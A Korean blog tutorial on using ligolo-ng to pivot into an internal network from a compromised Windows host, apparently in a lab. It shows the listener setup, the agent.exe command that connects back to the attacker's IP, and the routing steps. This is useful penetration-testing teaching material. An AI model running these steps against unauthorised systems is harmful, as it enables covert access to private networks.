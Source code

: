 ```yaml
---
layout: post
title: ligolo-ng 사용법
subtitle: logolo-ng를 이용해서 포트포워딩, 네트워크 피보팅하기
category: knowledge
thumbnail-img: /assets/img/knowledge/ligolo_logo.png
tags: [ligolo, ligolo-ng, proxy, pivot, portforwarding]
author: Hong
---
```


우선 서버와 클라이언트에서 사용할 proxy, agent 바이너리 파일을 각각 다운받아야한다.

[깃허브](https://github.com/nicocha30/ligolo-ng)에서 다운로드.

SOCKS프록시를 사용하지 않기 때문에 설정 필요없고 간편하다.

kali에서 터널 준비 & 기동

```
sudo ip tuntap add user [your_username] mode tun [원하는 이름]

sudo ip link set [원하는 이름] up
```

서버에서 원하는 포트 지정.

```
 ./proxy -selfcert -laddr "0.0.0.0:7878"
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC!
WARN[0000] Using self-signed certificates
WARN[0000] TLS Certificate fingerprint for ligolo is: 961A1B781DE6D16C89601ACCC6FF50A1BA11F96D9A6B880CD9EE0C4DA1B2E7DD
INFO[0000] Listening on 0.0.0.0:7878
    __    _             __
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/

  Made in France ♥            by @Nicocha30!
  Version: 0.7.5

ligolo-ng »
```

agent 바이너리 파일을 타겟 시스템에 배치한 후 아래의 명령어로 연결.

```
PS C:\temp> .\agent.exe -connect 192.168.45.211:7878 -ignore-cert
```

서버에서 접속된 것을 확인.

session명령어로 연결된 세션을 확인 할 수 있다.

```
ligolo-ng » INFO[0193] Agent joined.                                 id=2f93be9e-5c04-4ff8-bc57-d091c33b86d2 name="NT Service\\MSSQL$SQLEXPRESS@WEB02" remote="192.168.165.121:65289"

ligolo-ng » session
? Specify a session : 1 - NT Service\MSSQL$SQLEXPRESS@WEB02 - 192.168.165.121:65289 - 2f93be9e-5c04-4ff8-bc57-d091c33b86d2
[Agent : NT Service\MSSQL$SQLEXPRESS@WEB02] »
```

```
[Agent : NT Service\MSSQL$SQLEXPRESS@WEB02] » ifconfig
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet0                      │
│ Hardware MAC │ 00:50:56:ab:ad:c1              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 192.168.165.121/24             │
└──────────────┴────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet1                      │
│ Hardware MAC │ 00:50:56:ab:f2:9d              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.165.254/24              │
└──────────────┴────────────────────────────────┘
┌──────────────────────────────────────────────┐
│ Interface 2                                  │
├──────────────┬───────────────────────────────┤
│ Name         │ Loopback Pseudo-Interface 1   │
│ Hardware MAC │                               │
│ MTU          │ -1                            │
│ Flags        │ up|loopback|multicast|running │
│ IPv6 Address │ ::1/128                       │
│ IPv4 Address │ 127.0.0.1/8                   │
└──────────────┴───────────────────────────────┘
```

프록시 경유로 접속하고 싶은 네트워크 대역을 라우팅 테이블에 추가.

```
$ sudo ip route add 172.16.157.0/24 dev [터널 이름] # 이 예시에서는 터널이름이 ligolo
```

아래의 명령어로 추가되었는지 확인.

```
ip route list

default via 172.27.16.1 dev eth0 proto kernel
172.16.157.0/24 dev ligolo scope link
172.27.16.0/20 dev eth0 proto kernel scope link src 172.27.26.112
192.168.45.0/24 dev tun0 proto kernel scope link src 192.168.45.165
192.168.157.0/24 via 192.168.45.254 dev tun0
```

여기까지했으면 설정 완료.
서버의 ligolo쉘로 돌아가서 start를 입력하면 프록시가 시작된다.

```
[Agent : NT Service\MSSQL$SQLEXPRESS@WEB02] » start --tun hong
[Agent : NT Service\MSSQL$SQLEXPRESS@WEB02] » INFO[0153] Starting tunnel to NT Service\MSSQL$SQLEXPRESS@WEB02 (b65486e1-4af3-411a-9b9e-2ea3d71d6ed9)
```

kali에서 설정한 네트워크에 문제없이 통신이 가능해진다.

# 참고자료

관련 유튜브 영상의 [링크](https://www.youtube.com/watch?v=DM1B8S80EvQ&ab_channel=GonskiCyber)
참고한 블로그 [링크](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)
